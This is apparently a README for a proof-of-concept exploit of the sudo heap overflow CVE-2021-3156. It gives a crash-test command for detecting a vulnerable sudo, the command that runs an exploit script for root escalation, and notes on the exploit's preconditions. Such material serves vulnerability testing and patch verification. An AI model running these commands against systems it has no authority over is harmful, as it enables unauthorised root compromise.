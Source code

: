 CVE-2021-3156 is a new severe vulnerability was found in Unix and Linux operating systems that allow an unprivileged user to exploit this vulnerability using Sudo, causing a heap overflow to elevate privileges to root without authentication, or even get listed in the sudoers file.

Credit to: Advisory by [Baron Samedit of Qualys](https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt)

### How to check if you are affected.

[The sudo project](https://www.sudo.ws/alerts/unescape_overflow.html) released a command that allows you to test whether your version of sudo is vulnerable:
```
sudoedit -s '\' `perl -e 'print "A" x 65536'`
```

If you receive a usage or error message, sudo is not vulnerable. If the result is a Segmentation fault, sudo is vulnerable.

## Run the base PoC
```
cd xframe
```

```
sudo python3 exploits/sudoedit/suite/base_exploit_1.py --help
```

## Important Note for Exploit.

- The modified time of /etc/passwd needs to be newer than the system boot time, if it isn't you can use `chsh` to update it. Unfortunately this means you will have to know the password for the account you are running as. Remember that `chsh` doesn't accept empty passwords by default so if it is empty you may have to set one with `passwd`.

